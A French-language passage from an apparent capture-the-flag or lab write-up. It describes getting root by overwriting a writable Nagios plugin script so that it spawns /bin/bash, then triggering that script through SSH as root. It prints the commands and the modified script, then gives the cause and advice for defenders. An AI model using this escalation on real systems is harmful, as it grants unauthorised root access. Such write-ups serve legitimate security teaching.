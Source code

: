 et après avoir choisi l'option 7, il affiche le message: 

"**Tu y es presque toi aussi <3**"

Alors si on modifie le contenu du fichier pour ouvrir bash et executer la même commande, on peut accéder **root**:

`vim /usr/lib/nagios/security_plugins/answer_question.sh`

et on modifie le contenu du fichier: 
```bash
#!/bin/bash
/bin/bash
echo "Tu y es presque toi aussi <3"
```

et après on fait la même chose `ssh -p4343 -lroot localhost` et choisir l'option 7, ce qui nous donne root:  
**<span style="color:red">root</span><span style="color:#0af">@backup</span> <span style="color:green">✔</span> # echo "I am root!"**

![IMROOT](imroot.png)

Le mécanisme qui nous a
permis de nous contraindre à l’exécution de ce script, ce que il n'y a pas de restriction d'écriture dans le fichier _/usr/lib/nagios/security_plugins/answer_question.sh_ pour l'user backup5. Aussi, on peut accéder à cet user en utilisant SSH, ce qui ouvre une nouvelle possibilité de trouver des failles de sécuité. 

Le recommendation que je pourrais formuler au défenseur c'est de être bien attentif avec les permissions de fichier aux autres utilisateurs du système, et aussi d'essayer de éteindre le serveur SSH pour accéder au root, et protéger l'accèss au root seulement avec un mot de passe bien formulé.








